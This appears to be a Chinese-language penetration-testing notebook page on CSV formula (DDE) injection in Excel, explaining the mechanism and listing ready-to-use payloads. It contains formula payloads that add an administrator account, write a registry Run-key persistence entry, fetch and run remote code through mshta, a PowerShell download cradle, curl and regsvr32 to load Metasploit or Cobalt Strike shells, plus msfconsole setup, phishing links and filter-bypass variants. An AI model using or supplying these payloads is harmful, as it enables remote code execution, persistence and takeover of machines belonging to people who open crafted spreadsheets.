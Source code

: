 ```yaml
---
date: 2024-06-28
---
```


# CSV

> [office-exploits/injections at master · SecWiki/office-exploits · GitHub](https://github.com/SecWiki/office-exploits/tree/master/injections)
>
> [CSV注入详解 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12272?time__1311=mqmhD5YIoXqBqDudxUOxAEtKUq0INx&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-0)

---

## CSV简介

CSV(Comma-Separated Values) 是一种用来存储数据的纯文本格式文件。

CSV文件由任意数目的记录组成，记录间以指定符号(最常见的是逗号,也有用分号,制表符,`|`,空格等分隔的)分隔

例如:

![image-20240710094603740](http://cdn.ayusummer233.top/DailyNotes/202407100946680.png)

---

## CSV注入原理

CSV 注入是一种将包含恶意命令的excel公式插入到可以导出csv或xls等格式的文本中，当在excel中打开csv文件时，文件会转换为excel格式并提供excel公式的执行功能，会造成命令执行问题。

Excel 有一个特性：单元格中的第一个字符是 `+、-、@、=` 这样的符号时，他会以一个表达式的形式被处理

![image-20240710094847973](http://cdn.ayusummer233.top/DailyNotes/202407100948082.png)

不过除了公式之外, `=` 也可以用于执行代码, 这需要涉及到一个概念: [DDE](../DDE/index.md)

动态数据交换（DDE），是Windows下进程间通信协议，支持Microsoft Excel，LibreOffice和Apache OpenOffice。

Excel、Word、RTF、Outlook都可以使用这种机制，根据外部应用的处理结果来更新内容。因此，如果我们制作包含DDE公式的CSV文件，那么在打开该文件时，Excel就会尝试执行外部应用。

---

由于涉及到调用外部应用,加载外部数据, 对于新版本 Office 而言需要在 `文件-选项-信任中心-信任中心设置-外部内容-动态数据交换的安全设置` 中启用 `动态数据交换服务器查找` 和 `动态数据交换服务器启动`

![image-20240710110237136](http://cdn.ayusummer233.top/DailyNotes/202407101102187.png)

---

## 弹计算器

例如

```
=1+cmd|'/C calc'!A0
```

![image-20240710101319768](http://cdn.ayusummer233.top/DailyNotes/202407101014821.png)

![image-20240710101407766](http://cdn.ayusummer233.top/DailyNotes/202407101014623.png)

---

## OS命令执行

可以利用上述方式执行系统命令, 例如

- 打开任意应用程序

  例如打开浏览器访问指定站点

  ```
  =1+cmd|'/C "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" http://100.1.1.131:8090/a'!A0
  ```

- 反弹Shell

- 添加用户

  ```
  =cmd|'/C net user test 123456 /add'!A0+<br>=cmd|'/C net user test 123456 /add && net localgroup administrators test /add'!A0
  ```

- 修改注册表

  ```
  =cmd|'/C reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v calc /t REG_SZ /d c:\windows\system32\calc.exe /f'!A0
  ```

---

## cmd+mshta+msf 反弹Shell

> TODO

`msf`:

```bash
msfconsole
use exploit/windows/misc/hta_server
# 设置srvhost和srvport绑定一个web服务让目标访问
msf exploit(windows/misc/hta_server) > set srvhost 100.1.1.131
# 使用的攻击载荷
set payload windows/x64/meterpreter/reverse_tcp  
#默认是x86的,选择x64
set target 1
# 绑定攻击机IP
set lhost 100.1.1.131
# 启动脚本
run
```

新建csv, 插入如下命令并保存文件

```
=1+cmd|'/C mshta http://100.1.1.102:8080/3Mw1oRtpuxJp.hta'!A0
```

用 Excel 重新打开该 CSV即可上线 msf

---

## PowerShell 上线 CobaltStrike

```
=1+cmd|'/C "powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(\"http://100.1.1.131:8051/b\"))"'!A0
```

---

## CMD + Curl 下载与执行可执行文件

```
=cmd|'/C "curl http://100.1.1.131:8888/artifact_x64.exe --output shell.exe && .\shell.exe"'!A0
```

---

## 超链接钓鱼链接

```
=HYPERLINK("http://10.182.234.102:8090/a","点我百度”")
```

---

## 注册加载远程sct

> [office-exploits/injections at master · SecWiki/office-exploits · GitHub](https://github.com/SecWiki/office-exploits/tree/master/injections)

```csv
fillerText1,fillerText2,fillerText3,=MSEXCEL|'\..\..\..\Windows\System32\regsvr32 /s /n /u /i:http://192.168.154.200/cmd.sct scrobj.dll'!''
```

---

## 加载 scriptlet

> [office-exploits/injections at master · SecWiki/office-exploits · GitHub](https://github.com/SecWiki/office-exploits/tree/master/injections)

```
=Package|'scRiPt:http://XXXX/XXXX.xml'!""
```

---

## 绕过技巧

> [CSV注入详解 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12272?time__1311=mqmhD5YIoXqBqDudxUOxAEtKUq0INx&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-0)

---

### 静态

可以通过运算符`+-`的方式绕过对于 `=` 的检测

```
-1+1+cmd |’ /C calc’ !A0
```

参数处输入以下 Payload，`%0A`被解析，从而后面的数据跳转到下一行：

```
%0A-1+1+cmd|' /C calc'!A0
```

导出文件为 csv 时，若系统在等号`=`前加了引号`’`过滤，则可以使用分号绕过，分号`；`可分离前后两部分内容使其分别执行：

```
;-3+3+cmd|' /C calc'!D2
```

其他常用 Payload：

```
@SUM(cmd|'/c calc'!A0)
=HYPERLINK("https://attact.com")
```

---



































